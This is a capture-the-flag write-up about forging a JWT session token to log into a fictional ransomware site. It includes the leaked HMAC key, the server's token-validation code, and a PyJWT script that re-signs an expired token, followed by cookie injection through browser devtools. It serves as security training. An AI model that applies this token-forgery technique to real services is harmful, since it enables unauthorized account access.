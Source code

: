 # Task 6 - Gaining Access

<div align="center">
<img src="https://img.shields.io/badge/categories-Web Hacking, [redacted]-informational">
<img src="https://img.shields.io/badge/points-150-success">
<img src="https://img.shields.io/badge/tools-Python-blueviolet">
</div>

> We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.
>
> Generate a new token value which will allow you to access the ransomware site.
>
> Prompt:
>
> - Enter a token value which will authenticate you as a user of the site.

## Solution

To review, decrypting the file from task 5 yielded the following result:

```txt
# Netscape HTTP Cookie File
iulplkticahjbflq.ransommethis.net       FALSE   /       TRUE    2145916800      tok     eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTM1OTMzMDgsImV4cCI6MTY1NjE4NTMwOCwic2VjIjoiMXVUMTUza1VITU1IcnFxcUVLYWswS1NxeVM0dmR3VGkiLCJ1aWQiOjI2OTYwfQ.sZsTU8onwizKjCuZj99coyuM7wY7QZSWllb9SMAt6BM
```

The last value in that file that starts with `eyJ0eX...` is the token submitted for task 5. I thought it looked kind of like a JSON Web Token (JWT), which was confirmed when I copied it into the JWT debugger on the [official JWT website](https://jwt.io/):

<div align="center">
<img src="./img/jwt%20debugger%20screenshot.png" alt="JWT debugger output">
</div>

The `iat` and `exp` fields are standard across JWTs and indicate when a token was issued and expires as a [Unix timestamp](https://en.wikipedia.org/wiki/Unix_time), respectively. `sec` and `uid` sound specific to this ransomware website, so I referenced the [website source](../task-B2/server-files/) obtained during task B2. Here are all of the functions relevant to token verification in both `app/server.py` and `app/util.py`:

```python
# server.py - lines 150-166
def pathkey_route(pathkey, path):
    # --snip--

    # Check if they're logged in.
    try:
        uid = util.get_uid()
    except util.InvalidTokenException:
        return redirect(f"/{pathkey}/login", 302)

# util.py

# lines 71-79
def get_uid():
    """ Gets the logged-in user's uid from their token, if it is valid """
    token = request.cookies.get('tok')
    if token == None:
        print("No token cookie found!", file=sys.stderr)
        raise MissingTokenException
    if not validate_token(token):
        raise InvalidTokenException
    return jwt.decode(token, hmac_key(), algorithms=['HS256'])['uid']

# lines 47-57
def validate_token(token):
    try:
        claims = jwt.decode(token, hmac_key(), algorithms=['HS256'])
    except:
        # Either invalid format, expired, or wrong key
        return False
    with userdb() as con:
        row = con.execute('SELECT secret FROM Accounts WHERE uid = ?', (claims['uid'],)).fetchone()
        if row is None:
            return False
        return row[0] == claims['sec']

# lines 43-44
def hmac_key():
    return "xqDxTAQBYw4hEsK8ud3ASezUM4IohDW1"
```

Hmm, pretty sure you're not supposed to store an HMAC key in plaintext :) That should be useful for forging a JWT login token though. I decided to use PyJWT to do this because I had trouble with the online debugger and it was easy to use. Essentially all that has to be done is update the `iat` and `exp` fields of the JWT to make it valid. The token signature also has to be updated to ensure that it's valid, but because of the HMAC key being stored in plaintext in the website source PyJWT does that for us. The script I used is located [in this folder](./forge_jwt.py), but I've included it here for reference as well since it isn't too long:

```python
import datetime

import jwt

EXPIRED = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTM1OTMzMDgsImV4cCI6MTY1NjE4NTMwOCwic2VjIjoiMXVUMTUza1VITU1IcnFxcUVLYWswS1NxeVM0dmR3VGkiLCJ1aWQiOjI2OTYwfQ.sZsTU8onwizKjCuZj99coyuM7wY7QZSWllb9SMAt6BM"

HMAC_KEY = "xqDxTAQBYw4hEsK8ud3ASezUM4IohDW1"

if __name__ == "__main__":
    # Don't verify if the key is expired (we know it is haha)
    expired_dec = jwt.decode(EXPIRED, HMAC_KEY, algorithms=["HS256"], options={"verify_exp": False})

    # Choose valid iat/exp dates
    now = datetime.datetime.now(tz=datetime.timezone.utc)
    expired_dec["iat"] = now
    expired_dec["exp"] = now + datetime.timedelta(days=365) # 1 year later for leeway

    print(jwt.encode(expired_dec, HMAC_KEY, algorithm='HS256'))
```

Looking back I'm note entirely sure why I specified UTC as a timezone since the website didn't do that. I assume PyJWT automatically converts the `datetime` objects to UTC timestamps?

Anyways, when I ran the script the following token was generated:

```txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjU4Njc4NjIsImV4cCI6MTY5NzQwMzg2Miwic2VjIjoiMXVUMTUza1VITU1IcnFxcUVLYWswS1NxeVM0dmR3VGkiLCJ1aWQiOjI2OTYwfQ.cz2HMiQvSgXGPKQmYsPO1YiyMX2-q7y7aE8nOFX3hK4
```

If you run the script you'll get a slightly different token since it's based on the current time. Submitting this token proves it to be a valid login token, although logging into the website itself probably wouldn't hurt.

## Impersonating our attacker

Bringing back the contents of the cookie file from task 5:

```txt
# Netscape HTTP Cookie File
iulplkticahjbflq.ransommethis.net       FALSE   /       TRUE    2145916800      tok     eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTM1OTMzMDgsImV4cCI6MTY1NjE4NTMwOCwic2VjIjoiMXVUMTUza1VITU1IcnFxcUVLYWswS1NxeVM0dmR3VGkiLCJ1aWQiOjI2OTYwfQ.sZsTU8onwizKjCuZj99coyuM7wY7QZSWllb9SMAt6BM
```

Obviously this file includes more than just the login token. According to [this wiki page](http://fileformats.archiveteam.org/index.php?title=Netscape_cookies.txt#File_format), the different fields appear in the following order:

- host - the domain which set the cookie (`iulplkticahjbflq.ransommethis.net`)
- subdomains - "an early attempt at SameSite" according to the wiki page (`FALSE`)
- path - the path that owns the cookie (`/`)
- isSecure - whether a cookie should be HTTPS-only (`TRUE`)
- expiry - Unix timestamp of when cookie expires (`2145916800`; 2038-01-01T00:00:00Z, in [ISO 8601](https://en.wikipedia.org/wiki/ISO_8601) format)
- name - the name of the cookie (`tok`)
- value - the value of the cookie (`eyJ0eX...`)

In the "Storage" section of Firefox's devtools, you can modify a site's cookies and add new ones. I mostly just copied over the above fields, although they are named slightly differently:

<div align="center">
<img src="./img/key%20in%20firefox%20devtools.png" alt="forged JWT key cookie in firefox devtools">
</div>

Deleting the `/login` from the website URL confirms that this is a valid login (alongside the codebreaker website considering it correct, of course):

<div align="center">
<img src="./img/website%20homepage.png" alt="Ransomeware website homepage">
</div>

And we're in! Time to poke around to see what else we can do :)
